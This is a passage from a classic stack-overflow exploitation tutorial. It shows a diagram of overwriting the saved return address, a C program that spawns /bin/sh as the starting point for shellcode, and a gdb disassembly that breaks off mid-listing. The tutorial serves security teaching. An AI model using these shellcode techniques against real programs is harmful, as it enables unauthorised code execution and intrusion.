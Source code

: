 ```
bottom of  DDDDDDDDEEEEEEEEEEEE  EEEE  FFFF  FFFF  FFFF  FFFF     top of
memory     89ABCDEF0123456789AB  CDEF  0123  4567  89AB  CDEF     memory
           buffer                sfp   ret   a     b     c

<------   [SSSSSSSSSSSSSSSSSSSS][SSSS][0xD8][0x01][0x02][0x03]
           ^                            |
           |____________________________|
top of                                                            bottom of
stack                                                                 stack
```

The code to spawn a shell in C looks like:

{% highlight C %}
shellcode.c
-----------------------------------------------------------------------------
#include <stdio.h>

void main() {
   char *name[2];

   name[0] = "/bin/sh";
   name[1] = NULL;
   execve(name[0], name, NULL);
}
------------------------------------------------------------------------------
{% endhighlight %}

To find out what does it looks like in assembly we compile it, and start
up gdb.  Remember to use the -static flag. Otherwise the actual code the
for the execve system call will not be included.  Instead there will be a
reference to dynamic C library that would normally would be linked in at
load time.

```
------------------------------------------------------------------------------
[aleph1]$ gcc -o shellcode -ggdb -static shellcode.c
[aleph1]$ gdb shellcode
GDB is free software and you are welcome to distribute copies of it
 under certain conditions; type "show copying" to see the conditions.
There is absolutely no warranty for GDB; type "show warranty" for details.
GDB 4.15 (i586-unknown-linux), Copyright 1995 Free Software Foundation, Inc...
(gdb) disassemble main
Dump of assembler code for function main:
0x8000130 <main>:       pushl  %ebp
0x8000131 <main+1>:     movl   %esp,%ebp
0x8000133 <main+3>:     subl   $0x8,%esp
0x8000136 <main+6>:     movl   $0x80027b8,0xfffffff8(%ebp)
0x800013d <main+13>:    movl   $0x0,0xfffffffc(%ebp)
0x8000144 <main+20>:    pushl  $0x0
0x8000146 <main+22>:    leal   0xfffffff8(%ebp),%eax
0x8000149 <main+25>:    pushl  %eax
0x800014a <main+26>:    movl   0xfffffff8(%ebp),%eax
0x800014d <main+29>:    pushl  %eax
0x800014e <main+30>:    call   0x80002bc <__execve>
0x8000153 <main+35>:    addl   $0xc,%esp
0x8000156 <main+38>:    movl   %ebp,%esp
0x8000158 <main+40>:    popl   %ebp
0x8000159 <main+41>:    ret
End of assembler dump.
(gdb) disassemble __execve
Dump of assembler code for function __execve:
0x80002bc <__execve>:   pushl  %ebp
0x80002bd <__execve+1>: movl   %esp,%ebp
0x80002bf <__execve+3>: pushl  %ebx
```